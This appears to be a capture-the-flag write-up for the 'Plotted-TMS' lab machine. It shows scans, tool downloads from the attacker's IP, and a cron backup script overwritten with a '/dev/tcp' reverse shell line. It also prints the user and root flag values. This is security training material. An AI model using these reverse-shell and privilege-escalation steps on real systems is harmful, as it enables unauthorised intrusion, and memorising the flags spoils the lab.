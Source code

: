 # Plotted-TMS

![](../../.gitbook/assets/10.10.137.48.png)

## Task 1 Compromise

#### <mark style="color:red;">What is user.txt?</mark>

```bash
nmap -n -sV -sC 10.10.137.48
```

![](<../../.gitbook/assets/Screenshot from 2022-03-12 14-47-42.png>)

```bash
gobuster dir -u http://10.10.137.48 -w /usr/share/wordlists/common.txt \
             -t64
```

![](<../../.gitbook/assets/Screenshot from 2022-03-12 15-00-23.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-12 15-01-31.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-12 15-05-40.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-12 15-04-36.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-12 15-05-54.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-12 15-16-01.png>)

```bash
gobuster dir -u http://10.10.137.48:445 \
             -w /usr/share/dirb/wordlists/common.txt \
             -t64
gobuster dir -u http://10.10.137.48:445/management \
             -w /usr/share/dirb/wordlists/common.txt \
             -t64
```

![](<../../.gitbook/assets/Screenshot from 2022-03-12 15-13-38.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-12 18-05-37.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-12 15-13-12.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-12 15-16-49.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-12 16-05-23.png>) ![](<../../.gitbook/assets/Screenshot from 2022-03-12 16-29-07.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-12 16-29-30.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-12 18-01-26.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-12 16-34-23.png>)

```bash
nc -nvlp 4444
python3 -c 'import pty; pty.spawn("/bin/bash")'
find / -type f -name user.txt 2>/dev/null
cat /home/plot_admin/user.txt
ls -l /home/plot_admin/
```

![](<../../.gitbook/assets/Screenshot from 2022-03-12 16-42-05.png>)

```bash
wget http://10.6.9.176/linpeas.sh -P /tmp
bash /tmp/linpeas.sh
```

![](<../../.gitbook/assets/Screenshot from 2022-03-12 16-50-17.png>)

```bash
ls -ld /var/www/scripts/
cat /var/www/scripts/backup.sh
```

![](<../../.gitbook/assets/Screenshot from 2022-03-12 18-11-34.png>)

```bash
echo '#!/bin/bash' > /var/www/scripts/backup2.sh
echo 'sh -i >& /dev/tcp/10.6.9.176/4445 0>&1' >> /var/www/scripts/backup2.sh
chmod +x /var/www/scripts/backup2.sh 
mv -f /var/www/scripts/backup2.sh /var/www/scripts/backup.sh 
```

```bash
nc -nvlp 4445
python3 -c 'import pty; pty.spawn("/bin/bash")'
cat /home/plot_admin/user.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-03-12 18-21-17.png>)

{% hint style="success" %}
`77927510d5edacea1f9e86602f1fbadb`
{% endhint %}

#### What is root.txt?

```bash
wget http://10.6.9.176/suid3num.py
python3 suid3num.py
cat /etc/doas.conf
/usr/bin/doas openssl enc -in /root/root.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-03-12 18-25-38 (1).png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-12 18-26-14.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-12 18-28-23.png>)

{% hint style="success" %}
`53f85e2da3e874426fa059040a9bdcab`
{% endhint %}

## Xmind

{% file src="../../.gitbook/assets/10.10.137.48.xmind" %}
